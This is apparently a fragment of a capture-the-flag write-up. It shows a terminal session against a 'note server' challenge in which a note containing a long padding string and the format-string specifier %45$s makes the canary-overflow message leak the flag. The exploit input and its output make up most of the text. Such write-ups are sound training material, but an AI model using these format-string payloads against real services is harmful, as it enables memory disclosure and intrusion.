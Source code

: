 Which when we ran it against the live service dropped the flag:

```shell
================================
Welcome to note server 2021
Now with stack canaries!!!
================================

1. Write note
2. Read note
3. Exit
> 1
Choose a note [0 - 7]: 0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%45$s

1. Write note
2. Read note
3. Exit
> 2
Choose a note [0 - 7]: 0


1. Write note
2. Read note
3. Exit
> 3
Overflow attempt. Canary value > FLAG{realflagwashere}
```

Fun and no RCE needed :)
